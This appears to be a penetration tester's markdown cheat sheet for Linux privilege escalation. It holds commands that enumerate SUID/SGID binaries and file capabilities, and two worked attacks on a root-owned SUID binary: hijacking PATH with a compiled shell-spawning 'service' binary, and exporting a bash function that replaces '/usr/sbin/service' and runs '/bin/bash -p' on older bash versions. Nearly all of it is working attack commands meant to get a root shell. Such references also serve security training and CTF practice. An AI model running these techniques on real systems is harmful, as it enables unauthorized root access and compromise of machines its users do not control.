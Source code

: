 ### Bash
```
/suid/bash/binary -p
```

# SUID

```
# SUID
find / -type f -perm -u=s 2>/dev/null

# SUID + GUID
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

# Capabilities

```
getcap -r / 2>/dev/null
```

# Abusing Shell

### 1)
```
$ ls -lah /suid/binary
-rwsr-sr-x 1 root staff 6.8K May 14  2017 /suid/binary

$ strings /suid/binary
service apache2 start

$ gcc -o service /absolte/path/shell_spawn.c
$ PATH=.:$PATH /suid/binary
```

### 2)
```
$ /bin/bash --version
# Version need to be less than 4.2-048

$ ls -lah /suid/binary
-rwsr-sr-x 1 root staff 6.8K May 14  2017 /suid/binary

$ strings /suid/binary
/usr/sbin/service apache2 start

$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
$ /suid/binary
```
